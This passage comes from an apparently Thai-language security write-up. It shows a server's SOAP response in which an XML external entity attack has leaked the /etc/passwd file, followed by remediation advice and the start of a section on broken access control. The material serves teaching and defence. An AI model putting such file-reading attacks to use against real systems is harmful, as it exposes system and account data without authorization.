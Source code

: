 \begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Thu, 26 Sep 2019 11:14:01 GMT
Server: JBoss-EAP/7
X-Frame-Options: SAMEORIGIN
X-Powered-By: Undertow/1
Content-Type: text/xml;charset=UTF-8
Content-Length: 4758
Connection: close

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><MSGResponse xmlns="http://[REDACTED]/webservice" xmlns:ns2="http://[REDACTED]/xsd"><return><ns2:bankCode></ns2:bankCode><ns2:bankName></ns2:bankName><ns2:commercialInvoiceNo></ns2:commercialInvoiceNo><ns2:companyCode>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
systemd-bus-proxy:x:999:997:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:995:User for polkitd:/:/sbin/nologin
libstoragemgmt:x:996:993:daemon account for libstor-agemgmt:/var/run/lsm:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
[...]
\end{lstlisting}

วิธีการแก้ไขคือต้องไม่ให้ XML Parser สามารถ Include ข้อมูลจากภายนอกได้ แต่ถ้าจำเป็นต้องใช้ Feature นี้จริง ๆ ควรกรองข้อมูลก่อน Parse XML

\subsection{Broken Access Control}

ในหัวข้อนี้ผู้เขียนจะเล่าถึงช่องโหว่ที่เกิดจากการควบคุมสิทธิผู้ใช้งานว่าทำอะไรได้และไม่ได้ไม่ดีพอ ทำให้ผู้ประสงค์ร้ายสามารถเข้าถึงการทำงานและข้อมูลต่าง ๆ ที่ไม่ได้รับอนุญาต เช่น การเข้าถึงข้อมูลของ ผู้ใช้ผู้อื่น การเข้าถึงไฟล์สำคัญของระบบ การแก้ไขข้อมูลของผู้ใช้อื่น ๆ การกระทำคำสั่งของผู้ดูแลระบบโดยใช้สิทธิ์ของผู้ใช้ธรรมดา เป็นต้น

\subsubsection{Unauthenticated access to all resources through direct access}

